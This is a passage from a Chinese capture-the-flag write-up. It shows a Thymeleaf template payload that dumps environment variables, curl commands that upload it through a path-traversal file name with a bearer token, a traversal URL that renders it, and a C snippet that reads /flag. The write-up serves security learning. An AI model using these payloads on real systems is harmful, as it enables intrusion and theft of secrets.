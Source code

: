 ```
```

所以最后写文件

payload.html

```
<pre th:each="e : ${@environment.getSystemEnvironment().entrySet()}"
th:text="${e.key + '=' + e.value}">123</pre>

```

传文件

```
curl -F "imgName=../../tmp/yui" -F "imgFile=@payload.html;type=text/html" -H "Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiJ1c2VyMSJ9.sFqXJja3YmLPT2ULrh0wnb-8HmGT13qSRUVs9-1rNCw" -v http://45.40.247.139:23951/upload

访问
http://45.40.247.139:23951/login/dynamic-template?value=file:../../../../tmp/yui

curl -H "Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiJ1c2VyMSJ9.sFqXJja3YmLPT2ULrh0wnb-8HmGT13qSRUVs9-1rNCw" http://45.40.247.139:23951/login/dynamic-template?value=file:../../../../tmp/yui
```

![image-20251012020520390](https://cdn.jsdelivr.net/gh/CTF-USTB/Panic404-wp-images/images/20251012170419972.png)

### staticNodeService

根据题目得出满足

~~~c
#include <stdio.h>

int main() {
    FILE *file;
    int c;

    file = fopen("/flag", "r");
    while ((c = fgetc(file)) != EOF) {
        putchar(c);
    }
    fclose(file);

    return 0;
}
~~~

才得flag、

之后继续分析

![image-20251012122433694](https://cdn.jsdelivr.net/gh/CTF-USTB/Panic404-wp-images/images/20251012170419973.png)

